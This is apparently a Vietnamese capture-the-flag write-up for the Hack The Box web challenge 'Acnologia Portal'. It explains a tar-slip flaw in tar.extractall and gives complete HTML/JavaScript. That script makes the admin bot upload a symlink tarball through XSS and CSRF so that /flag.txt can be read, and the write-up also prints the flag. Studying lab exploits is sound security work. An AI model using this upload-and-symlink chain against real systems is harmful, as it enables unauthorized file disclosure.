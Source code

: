 # Acnologia Portal

## Unintended solution
Vul trong util.py ở dòng code:
```py
tar.extractall(tmp)
```
Đọc thêm tại [đây](https://codeql.github.com/codeql-query-help/python/py-tarslip/#):

Kịch bản khai thác: tạo môt 
1. Tạo một symlink `flag.txt -> /flag.txt`
2. Dùng [evilarc](https://github.com/ptoomey3/evilarc) để tạo tar `file.tar.gz` từ symlink
3. XSS + CSRF con bot để fetch và upload một `file.tar.gz`.
4. Access `<URL>/static/flag.txt` để lấy flag

script:
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Flag</title>
</head>

<body>
    <script>
        function base64toBlob(base64Data, contentType) {
            contentType = contentType || '';
            var sliceSize = 1024;
            var byteCharacters = atob(base64Data);
            var bytesLength = byteCharacters.length;
            var slicesCount = Math.ceil(bytesLength / sliceSize);
            var byteArrays = new Array(slicesCount);

            for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
                var begin = sliceIndex * sliceSize;
                var end = Math.min(begin + sliceSize, bytesLength);

                var bytes = new Array(end - begin);
                for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
                    bytes[i] = byteCharacters[offset].charCodeAt(0);
                }
                byteArrays[sliceIndex] = new Uint8Array(bytes);
            }
            return new Blob(byteArrays, {
                type: contentType
            });
        }

        var b64file = "H4sICHIWg2IC/2V2aWwudGFyAO3PXQrCMBBG0SwlK8hfk2Y9oWgplFg0Bd29qbQvRSkKvt3DhA9mAskopdW70mmaljMOXSrDJetbqdnp85h6Ve5FfMFUMcYlbQxmzebVXwnrnTetdb6tcxesCUK63Z9+efvQXBe7SilyPz9O+fO9o/m2yJYAAAAAAAAAAAAAAAAAAPzRE79WLagAKAAA";

        var content_type = 'application/x-gtar-compressed';
        var blob = base64toBlob(b64file, content_type);

        var formData = new FormData();
        formData.append('file', blob, 'file.tar.gz');

        var url = '/api/firmware/upload';
        var request = new XMLHttpRequest();
        request.open('POST', url);
        request.send(formData);
    </script>
</body>

</html>

<!-- https://www.dubget.com/file-upload-via-xss.html -->
<!-- https://codeql.github.com/codeql-query-help/python/py-tarslip/# -->
```

## Intended solution
<https://gist.github.com/pich4ya/fa26c091c989db14234b2f9aa81fedbc>

**HTB{des3r1aliz3_4ll_th3_th1ngs}**
